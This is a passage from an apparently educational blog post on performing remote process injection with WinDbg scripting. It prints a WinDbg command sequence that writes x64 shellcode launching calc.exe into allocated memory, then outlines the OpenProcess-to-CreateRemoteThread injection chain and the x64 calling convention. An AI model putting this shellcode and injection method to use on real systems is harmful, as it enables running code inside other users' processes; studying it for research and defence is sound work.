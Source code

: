 Shellcode that pops calc.exe would look something like this:

```
.foreach /pS 5 ( register \{ .dvalloc 0x6B \} ) { r @$t0 = register }
;eb @$t0+00 53 ;eb @$t0+01 56 ;eb @$t0+02 57 ;eb @$t0+03 55
;eb @$t0+04 54 ;eb @$t0+05 58 ;eb @$t0+06 66 ;eb @$t0+07 83
;eb @$t0+08 E4 ;eb @$t0+09 F0 ;eb @$t0+0A 50 ;eb @$t0+0B 6A
;eb @$t0+0C 60 ;eb @$t0+0D 5A ;eb @$t0+0E 68 ;eb @$t0+0F 63
;eb @$t0+10 61 ;eb @$t0+11 6C ;eb @$t0+12 63 ;eb @$t0+13 54
;eb @$t0+14 59 ;eb @$t0+15 48 ;eb @$t0+16 29 ;eb @$t0+17 D4
;eb @$t0+18 65 ;eb @$t0+19 48 ;eb @$t0+1A 8B ;eb @$t0+1B 32
;eb @$t0+1C 48 ;eb @$t0+1D 8B ;eb @$t0+1E 76 ;eb @$t0+1F 18
;eb @$t0+20 48 ;eb @$t0+21 8B ;eb @$t0+22 76 ;eb @$t0+23 10
;eb @$t0+24 48 ;eb @$t0+25 AD ;eb @$t0+26 48 ;eb @$t0+27 8B
;eb @$t0+28 30 ;eb @$t0+29 48 ;eb @$t0+2A 8B ;eb @$t0+2B 7E
;eb @$t0+2C 30 ;eb @$t0+2D 03 ;eb @$t0+2E 57 ;eb @$t0+2F 3C
;eb @$t0+30 8B ;eb @$t0+31 5C ;eb @$t0+32 17 ;eb @$t0+33 28
;eb @$t0+34 8B ;eb @$t0+35 74 ;eb @$t0+36 1F ;eb @$t0+37 20
;eb @$t0+38 48 ;eb @$t0+39 01 ;eb @$t0+3A FE ;eb @$t0+3B 8B
;eb @$t0+3C 54 ;eb @$t0+3D 1F ;eb @$t0+3E 24 ;eb @$t0+3F 0F
;eb @$t0+40 B7 ;eb @$t0+41 2C ;eb @$t0+42 17 ;eb @$t0+43 8D
;eb @$t0+44 52 ;eb @$t0+45 02 ;eb @$t0+46 AD ;eb @$t0+47 81
;eb @$t0+48 3C ;eb @$t0+49 07 ;eb @$t0+4A 57 ;eb @$t0+4B 69
;eb @$t0+4C 6E ;eb @$t0+4D 45 ;eb @$t0+4E 75 ;eb @$t0+4F EF
;eb @$t0+50 8B ;eb @$t0+51 74 ;eb @$t0+52 1F ;eb @$t0+53 1C
;eb @$t0+54 48 ;eb @$t0+55 01 ;eb @$t0+56 FE ;eb @$t0+57 8B
;eb @$t0+58 34 ;eb @$t0+59 AE ;eb @$t0+5A 48 ;eb @$t0+5B 01
;eb @$t0+5C F7 ;eb @$t0+5D 99 ;eb @$t0+5E FF ;eb @$t0+5F D7
;eb @$t0+60 48 ;eb @$t0+61 83 ;eb @$t0+62 C4 ;eb @$t0+63 68
;eb @$t0+64 5C ;eb @$t0+65 5D ;eb @$t0+66 5F ;eb @$t0+67 5E
;eb @$t0+68 5B ;eb @$t0+69 C3
```

### 4. Performing remote process injection

With the shellcode buffer loaded into memory and available at `$t0`, the next step is to perform the actual remote injection. There are many different methods of remote injection, because I don't care about stealth or evasion, I went with the classic `OpenProcess()` ->`VirtualAllocEx()` -> `WriteProcessMemory()` -> `CreateRemoteThread()`. My solution makes use of the WinDbg built-in commands `r` and `eq` to manipulate the (pseudo-)registers and execution flow (through `rip`), which translates to `SetThreadContext()` under the hood, to manually set up the different calls and execute them. I'm sure there are much more elegant and efficient methods to do this, however as I already said I'm pretty bad at using WinDbg, let alone create cool scripts.

If you're somewhat familiar with Winternals, in this case 64-bit, you'll also know about the [64-bit calling convention](https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170). The calling convention describes how the *caller* should make calls into another function (the *callee*). To keep it simple for the sake of this blogpost and within the scope of the problem at hand, the following convention is applicable:
* param 1 - into `RCX`
* param 2 - into `RDX`
* param 3 - into `R8`
* param 4 - into `R9`
* param 5 and more - onto the *stack*

